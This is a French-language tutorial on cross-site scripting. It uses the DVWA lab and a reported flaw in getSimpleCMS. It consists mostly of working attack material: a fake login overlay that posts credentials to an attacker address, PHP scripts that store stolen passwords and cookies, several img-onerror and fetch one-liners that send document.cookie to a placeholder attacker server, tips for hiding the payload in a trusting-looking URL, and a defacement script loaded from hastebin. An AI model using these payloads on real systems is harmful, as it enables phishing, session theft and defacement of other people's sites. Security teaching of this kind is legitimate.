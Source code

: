 # Injection XSS

**XSS signifie Cross Site Scripting**

Nous allons tester ensemble des failles de sécurité de type XSS reflected, nous verrons au travers de nos tests que certaines attaques peuvent être très avancées.

*Nous verrons un peu plus tard pour mettre en place une attaque de type phishing (nous profiterons pour voir l’envoi de mail “anonyme”) et la redirection de données en post pour une attaque XSS avancée, qui aboutira à un vol de session.*

Les impacts d’une faille de XSS peuvent être importants comme vous le verrez dans cette démonstration.

Dans notre premier essai nous avons utilisez DVWA pour appréhender l'injection XSS Reflected.

Voici une injection qui permet de créer une surcouche sur le site avec un formulaire ressemblant comme 2 gouttes d'eau à celui de base. PENSEZ A MODIFIER les "*************" par votre adresse http de l'attaquant.

```html
<div style="color: #6b6b6b;background-color:#fefffe;position:absolute;top:0;left:0;z-index:1000;width:100%;height:100%;"><link rel="stylesheet" type="text/css" href="/dvwa/css/login.css" /><div style="margin:auto;width:350px;"><div><br><p style="text-align:center;"><img src="/dvwa/images/login_logo.png"></p><br></div><form action="************" method="post"><fieldset><label for="user">Username</label> <input type="text" class="loginInput" size="20" name="username"><br><label for="pass">Password</label> <input type="password" class="loginInput" autocomplete="off" size="20" name="password"></fieldset><p style="text-align:center;font-size:14px" class="submit"><input type="submit" value="Login" name="Login"></p></form></div></div>
```


Voici un exemple de code permettant de récupérer les données de ce formulaire :

```php
<?php

if(sizeof($_POST) > 0) {
	if(!empty($_POST['username']) && is_string($_POST['username'])) {
		if(!empty($_POST['password']) && is_string($_POST['password'])) {
			file_put_contents('recup_login.txt', date('d/m/Y H:i:s').' - login: '.$_POST['username'].', password: '.$_POST['password']."\n", FILE_APPEND);
		}
	}
}
header('location:http://<SITE_VICTIME>/');

```

Ici l'attaque pourrait être soumise par mail l'url ressemblerait en partie à ça :

![Injection%20XSS/Untitled%201.png](Injection%20XSS/Untitled%201.png)

Cela pourrait intriguer un utilisateur avertie, cependant une technique simple pourrait donner une url comme celle ci :

![Injection%20XSS/Untitled%202.png](Injection%20XSS/Untitled%202.png)

Des mot clés rassurant tel que secure_id ou private_key qui sont ici uniquement dans le but de pousser l'injection dans la partie non visible de l'url dans la barre d'adresse.

**Vol de session**

Voici un exemple de code permettant de récupérer les cookies (recup_cookie.php) :

```php
<?php

if(sizeof($_GET) > 0) {
	if(!empty($_GET['cookie']) && is_string($_GET['cookie'])) {
		file_put_contents('recup_cookie.txt', date('d/m/Y H:i:s').' - '.$_GET['cookie']."\n", FILE_APPEND);
	}
}
header('location:http://<SITE_VICTIME>/');
```

Exemple avec un **document.location** :

`Michel<img src="404" style="display:none;" onerror="document.location='http://<SERVER_ATTAQUANT>/recup_cookie.php?cookie='+document.cookie;">`

Voici des exemples d'attaques avec fetch pour les navigateurs récents

`<script>fetch('http://<SERVER_ATTAQUANT>/recup_cookie.php?cookie='+document.cookie);</script>`

Voici une façon une plus discrète :

`Michel<img src="404" style="display:none;" onerror="javascript:fetch('http://<SERVER_ATTAQUANT>/recup_cookie.php?cookie='+document.cookie);">`

ou

`Michel<img src="404" style="display:none;" onerror="fetch('http://<SERVER_ATTAQUANT>/recup_cookie.php?cookie='+document.cookie);">`

# **XSS DOM**

Il est possible de modifier dans certains cas du code javascript, pour exemple je vais vous montrer une découverte effectuée dans getSimpleCMS.

Dans le fichier header.php on peut remarquer qu'une variable GET n'est pas contrôlée :

![Untitled](Injection%20XSS/Untitled%203.png)

En créant une injection dans cette variable (via la chaine de requête :

![Untitled](Injection%20XSS/Untitled%204.png)

En créant une injection XSS DOM dans la variable path, il est possible d'exécuter du javascript :

![Untitled](Injection%20XSS/Untitled%205.png)

Il est bien sur possible de créer des injections bien plus puissante qu'un simple "Hello world".

Imaginez le chargement d'un script externe qui pourrait supprimer les différentes pages ou de créer n'importe quelle interaction avec l'interface avec les droits de l'administrateur.

Nous pourrions créer sur un fichier externe, par exemple sur [https://hastebin.com/](https://hastebin.com/)

```jsx
document.addEventListener('DOMContentLoaded', function() {
    document.getElementById('post-title').value = 'Hacked By Cyril';
    document.getElementById('post-content').textContent = 'Ce site a été DEFACED par Cyril';
    document.getElementById('page_submit').click();
});
```

**L'injection pourrait ressembler à ça :**

http://192.168.0.28/admin/edit.php?path=';</script><script src="https://hastebin.com/raw/XXXXXXXX">

Le code Javascript serait alors exécuté et il a pour objectif de modifier la page d'accueil.

[Protection XSS](https://www.notion.so/Protection-XSS-e786b084223f4e17b3faf5032b14a46d)